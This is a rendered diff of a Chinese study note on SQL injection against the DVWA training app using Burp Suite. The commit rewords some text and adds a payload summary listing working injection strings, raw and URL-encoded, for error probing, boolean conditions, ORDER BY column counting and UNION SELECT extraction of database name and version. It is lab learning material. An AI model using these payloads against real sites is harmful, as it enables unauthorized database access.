

Before and after one commit to helihai375-coder/new-project, a Markdown page: docs/dvwa/dvwa-burp-sqli-notes.md, 2 parts joined by grey strips. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Polish DVWA SQLi notes

````diff
--- a/docs/dvwa/dvwa-burp-sqli-notes.md
+++ b/docs/dvwa/dvwa-burp-sqli-notes.md
@@ -157,7 +201,7 @@ URL 编码：
 GET /vulnerabilities/sqli/?id=1%27%20or%20%271%27%3D%271&Submit=Submit HTTP/1.1
 ```
 
-返回现象：页面返回多个用户，例如：
+成功现象：页面返回多个用户，例如：
 
 ```text
 admin / admin
@@ -166,7 +210,7 @@ Hack / Me
 Pablo / ...
 ```
 
-含义：`'or '1'='1` 是永真条件，数据库返回了更多记录。
+说明：`'or '1'='1` 是永真条件，数据库返回了更多记录。
 
 ### 永假条件测试
 
@@ -378,16 +445,19 @@ GET /vulnerabilities/sqli/?id=1%27%20union%20select%201,version()%23&Submit=Subm
 - Burp 代理端口和 DVWA 端口冲突
 - Firefox 的 `No proxy for` 中包含 `127.0.0.1` 或 `localhost`
 
-解决：使用 Burp 自带浏览器，或者手动设置 Firefox 代理：
+解决方式：
 
 ```text
+使用 Burp 自带浏览器
+或手动设置 Firefox 代理：
+
 HTTP Proxy: 127.0.0.1
 Port: 8082
 ```
 
 同时清空 `No proxy for`。
 
-## 8. 核心概念
+## 核心概念
 
 - Burp Suite：用于拦截、查看、修改和重放 HTTP 请求，是 Web 渗透测试中的核心工具。
 - Repeater：用于重复发送同一个请求，方便测试不同参数和 Payload。
@@ -396,7 +466,50 @@ Port: 8082
 - `ORDER BY`：用于判断当前查询结果有多少个字段，为 `UNION SELECT` 做准备。
 - `UNION SELECT`：用于把构造的数据拼接到原查询结果中，从而读取数据库信息。
 
-## 9. 报告写法模板
+## Payload 汇总
+
+报错测试：
+
+```text
+1'
+1%27
+```
+
+布尔条件测试：
+
+```text
+1' or '1'='1
+1%27%20or%20%271%27%3D%271
+
+1' and '1'='2
+1%27%20and%20%271%27%3D%272
+```
+
+字段数判断：
+
+```text
+1' order by 1#
+1' order by 2#
+1' order by 3#
+
+1%27%20order%20by%201%23
+1%27%20order%20by%202%23
+1%27%20order%20by%203%23
+```
+
+联合查询：
+
+```text
+1' union select 1,2#
+1' union select 1,database()#
+1' union select 1,version()#
+
+1%27%20union%20select%201,2%23
+1%27%20union%20select%201,database()%23
+1%27%20union%20select%201,version()%23
+```
+
+## 报告写法模板
 
 漏洞名称：SQL 注入漏洞
 
````
Also changed, not shown: other parts of docs/dvwa/dvwa-burp-sqli-notes.md (+128 -42 lines).
